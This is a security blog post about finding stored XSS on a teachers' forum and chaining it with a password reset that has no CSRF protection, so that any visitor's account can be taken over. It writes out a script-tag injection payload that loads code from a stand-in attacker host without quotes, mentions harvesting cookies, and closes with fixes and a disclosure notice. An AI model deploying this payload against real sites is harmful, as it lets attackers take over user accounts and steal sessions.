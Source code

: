 title: Compromise Arbitrary Account by Exploiting Stored XSS
sub_title: Reset User's Password by Injecting XSS
date: 2016-08-20

Find and Exploit XSS:
=====================

I was doing some random browsing on the internet today and found a
website very “interesting”.

[*http://update_after_fix*](http://update_after_fix) is a Chinese
teachers forum. Basically you can register an account, open classes
online, download&upload resources, discuss on topics and do all kinds of
teaching related stuff.

Then I registered an account and did some random testing. After a few
tries, I found some stored XSS vulnerabilities on the website.

In the comment page, it seems the backend server does nothing except
escaping quotes.

This can be simply by passed using fromCharCode function in javascript.

<p align="center">
<img height="232" src="https://lh5.googleusercontent.com/XEBusQGtEtqhpyjNySZZfUl4q6Ij4PRpowDtUAWMPH9YJaBm0naTI3B8Uk7Asa4rN-Eqkx5NbFA_JwW_u275rFw1fe3aQGhurc1gJ1RaM8loI_RGOV3O9jogS2yZvdZ-7VVx1--2" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Vulnerable comment page
</p>
Similarly, in user’s diary and user’s education record, every input is
not filtered correctly and leave the site vulnerable to attackers.

<p align="center">
<img height="153" src="https://lh4.googleusercontent.com/cbNe5Tdoih9jtaeRttfYahKOFBXjNkErzAlHNwOjgGg2x5Dn5UMixaAgjroedh2YOan9v7MxZJ377wjL1CkuC4Y2h2C8SaGF4aiET5nlTbt3czZDNgwYXjEBvc4uvkNVtje2Lf91" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Stored xss example
</p>
Cookie is not set to http-only and I also generated the alert on
document.cookie.

<p align="center">
<img height="105" src="https://lh5.googleusercontent.com/0ebGfYdDUG5P84G2OTgqVmAwZUY1-351TJ6C6HoV1i62-hPJeHxLwQ6DI25VHAyKGzHhj1zWzExqYjHrxp-PK326WWiffjRtgiFqpuxMyaRd_NMgb_d1oJ1vlf2VWzdFm7HOyBfG" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Get document cookie
</p>
Then I decided to report this issue to the website administrator. But
since at that time was at night in China, maybe the admin was still
sleeping. So I thought it would be more convincing if I can give some
serious POC.

After some browsing, I found a big security weakness that can be
exploited.

In the “reset password” panel, old password is not needed at all. This
means a user can reset his password just based on his current session.
This is a silly design.

<p align="center">
<img height="246" src="https://lh5.googleusercontent.com/2UD5-7ZVANtZscpy8lijTUVLarlashrhvE5ZckmDDNY5mabFNdm-_yfLC-3_MYMrentlMucoTd2LnjkImVpR_QTNsGv-wMGdbEuSw0XGm8g4GcMUI9XA_c-Q4Sc8-uJENUZd4WVz" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Password update page
</p>

I captured the packet used to reset password,

<p align="center">
<img height="213" src="https://lh4.googleusercontent.com/ROA-FWVQFThS5yTIhSlESd2Nxl3O6hQFC0ugueEcMivDg4KDmKNbC5qyDih_jlg3w1xYSX8nTc8lfB_EU_jDuSUCdY6avAcsJJ8lOuIke_n6wTbCCTfc-K0yoHhUCm5HlO33cM1u" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Reset password packet
</p>
By looking into the packet, I found that the process has no csrf token
and it is a perfect vulnerability to exploit XSS.

Then I wrote a simple POC.

<script src="https://gist.github.com/rundongliu/c586fd7f62734e5ac2590b6e03328b74.js"></script>
I tried to inject the code into the input but the backend server did
some length checking.

Then I uploaded the code onto my server and tried to inject

&lt;script
src=http://hack.com/hack.js &lt;/script&gt;
as input

Since the server escapes quotes, I did not add quotes to the url. I
tested firefox and chrome, they both works fine.

After that, I tested it in my browser, and captured the result.

<p align="center">
<img height="202" src="https://lh3.googleusercontent.com/nFG5jpwOFBnnvPv4in8jsomeyFdLBj6xh6nsiupMLOps3d92XsfdqY1yJeqxKvIZUjizpRgfwY03-eV-GFPyQWjFD3ZT2ez0hDovZJYU3Tc0WSUmiiUq6QLwuJ6aR2vyMS5xQcXl" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Reset password success
</p>
Bang, we are able to reset any account’s password. If any logged in user
visits this page, his password will be set to “hahaha”. :)

Since the cookie contains account’s username in it. We can also add one
line of code to harvest the compromised cookie.

This is very easy to do and I will not demonstrate the details.

Now, we can sit in front of our computer and wait to harvest compromised
accounts!

Conclusion:
===========

By writing this blog, I want to demonstrate how serious XSS is. An
attacker can use it to do lots of stuff and cause huge damage.

The most important thing is

Web developers should know about security.
------------------------------------------

To fix these issues,

1 Correctly filter user input.

2 Add csrf token for sensitive operations.

3 Set cookie to http-only

4 Validate user when resetting password

Notice:
=======

All the test are done on my own homepage and can not be accessed by
other users. I deleted the script comment as soon as I finished testing.

I could have done this on this website’s main page but this would have
severely damage other users’ experience.

I have reported this vulnerability to related party and they will
probably fix it soon.

My test is only for POC and reporting bugs to administrator, please do
not use this to do bad stuff.
